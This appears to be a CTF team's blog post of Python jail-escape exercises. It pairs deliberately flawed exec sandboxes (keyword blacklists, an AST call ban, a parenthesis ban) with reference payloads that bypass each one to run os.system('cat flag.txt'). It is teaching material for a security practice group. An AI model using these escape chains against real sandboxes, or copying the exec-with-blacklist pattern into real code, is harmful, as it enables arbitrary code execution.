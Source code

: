 ```yaml
---
layout: post
title: "Python Jail Escapes"
categories: learning
author: Liam
---
```


At our weekly meetings we had a talk about Python jail escapes, aka. getting around restrictions that make it hard to execute `os.system('cat flag.txt')`. In the talk we went through challenges, that we present here as exercises to practice. Starting very simple and then digging more and more into python internals.

Solve them yourself, by copying the script and providing input that executes `os.system('cat flag.txt')`. Afterwards you can compare your solution to the one we had in mind, there are always different ways. For some reference solutions it is relevant to mention, that we used Python 3.11.2.

Learning about Python Jail Escapes it is helpful to ask questions like:
* How are modules and classes implemented in Python?
* What are frozen modules?
* How does syntactic sugar get replaced? You may start at `import someting` or `array[5]`.
* How many ways are there to call a function/method other than `lmao()`/`lm.oa()`?

## Happens way too often

```python
import string

code = input('Your scientific computation: ')

code = ''.join([c for c in code if c in string.printable])

forbidden = ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins']
for f in forbidden:
    code = code.replace(f, '')
exec(code)
```

<details>
<summary>Reference Solution</summary>

No need for recursivity. This is Python not Haskell.

<code>imosport ooss; ooss.sysostem('cat flag.txt')</code>
</details>

## Correct, or jail

```python
code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins']:
    if keyword in code:
        print('You are jailed!')
        break
else:
    exec(code)
```

<details>
<summary>Reference Solution</summary>

There is a `for/else` in Python???!!? Ah, and obviously:

<code>globals()['__built'+ 'ins__'].__dict__['__im' + 'port__']('o' + 's').__dict__['sys' + 'tem']('cat flag.txt')</code>
</details>

## Only causing trouble

```python
import string

code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open',
                'system', 'os', 'builtins', '+']:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code, {'__builtins__': {}})
```

<details>
<summary>Reference Solution</summary>

Based solution:

<code>().__class__.__base__.__subclasses__()[140].__init__.__globals__[''.join(['sy', 'stem'])]('cat flag.txt')</code>
</details>

## Ahhhhhhhhhh, no more fun for you

```python
import string

code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open',
                'system', 'os', 'builtins', '+', '"', "'"]:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code, {'__builtins__': {}})
```

<details>
<summary>Reference Solution</summary>

Are there simpler solution to construct a string? Yes. Does this one get you the flag? Also, yes. So why are you asking?

<code>().__class__.__base__.__subclasses__()[140].__init__.__globals__[().__str__()[:0].join([i.to_bytes().decode() for i in [115, 121, 115, 116, 101, 109]])](().__str__()[:0].join([i.to_bytes().decode() for i in [99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116]]))</code>
</details>

## Now it is over, isn't it?

```python 
code = input('Your scientific computation: ')
code = ''.join([c for c in code if c in string.printable])
for keyword in ['eval', 'exec', 'import', 'open', 'system', 'os', 'builtins',
                '.', '[', ']']:
    if keyword in code:
        print('You are jailed!', keyword)
        break
else:
    exec(code)
```

<details>
<summary>Reference Solution</summary>

it is not over until you remove getattr

<code>getattr(getattr(getattr(globals(), 'get')('__bu' + 'iltins__'), '__imp' + 'ort__')('o' + 's'), 'sys' + 'tem')('cat flag?txt')</code>
</details>




## Treebox

From [Google Capture The Flag 2022](https://ctftime.org/event/1641/)

```python
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

<details>
<summary>Reference Solution</summary>

Our solution, specifically the solution of Benedikt, looked something along the lines of:

<code>
class NotACall(Exception):
    __add__ = exec


try:
    raise NotACall
except NotACall as e:
    e + 'import os; os.system("cat flag.txt");exit(0)'
--END
</code>
</details>

## Treebox is no match for Robin

This a modified version of the treebox challenge, here to point out a particular way to solve the challenge.

```python
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if '(' in line or ')' in line:
        print("ERROR: Parentheses are not allowed")
        exit(1)
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
else:
    print("ERROR: Code is not safe")
    exit(1)
```

<details>
<summary>Reference Solution</summary>

Also, no match for Robin, we yet have to find anything that is.

Solution by Robin Jadoul:
<code>
# https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/
@exec
@input
class X:
    pass
--END
</code>
</details>
